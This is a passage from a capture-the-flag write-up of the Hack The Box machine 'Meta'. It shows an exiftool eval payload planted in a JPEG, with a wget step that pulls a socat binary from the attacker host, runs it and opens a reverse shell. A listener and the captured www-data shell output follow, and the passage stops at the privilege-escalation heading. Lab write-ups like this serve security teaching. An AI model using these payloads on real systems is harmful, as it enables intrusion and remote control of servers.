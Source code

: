 - Modify the image with a reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:29:53(HKT)]
└> exiftool -config /opt/JPEG_RCE/eval.config ~/Downloads/rickroll.jpg -eval='system("wget http://10.10.14.19/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.10.14.19:443 EXEC:\"/bin/bash\",pty,stderr,setsid,sigint,sane")'
    1 image files updated
```

- Setup a socat TTY listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:28:57(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/16 15:28:57 socat[108575] N opening character device "/dev/pts/3" for reading and writing
2023/08/16 15:28:57 socat[108575] N listening on AF=2 0.0.0.0:443
```

- Upload the modified image:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|15:28:57(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/16 15:28:57 socat[108575] N opening character device "/dev/pts/3" for reading and writing
2023/08/16 15:28:57 socat[108575] N listening on AF=2 0.0.0.0:443
                                                                 2023/08/16 15:30:29 socat[108575] N accepting connection from AF=2 10.10.11.140:34368 on AF=2 10.10.14.19:443
                                                                   2023/08/16 15:30:29 socat[108575] N starting data transfer loop with FDs [5,5] and [7,7]
                                                www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm-256color
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 22 columns 107
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^C
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami; hostname; ip a
www-data
meta
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2f:79 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

I'm user `www-data`!

## Privilege Escalation

### www-data to thomas
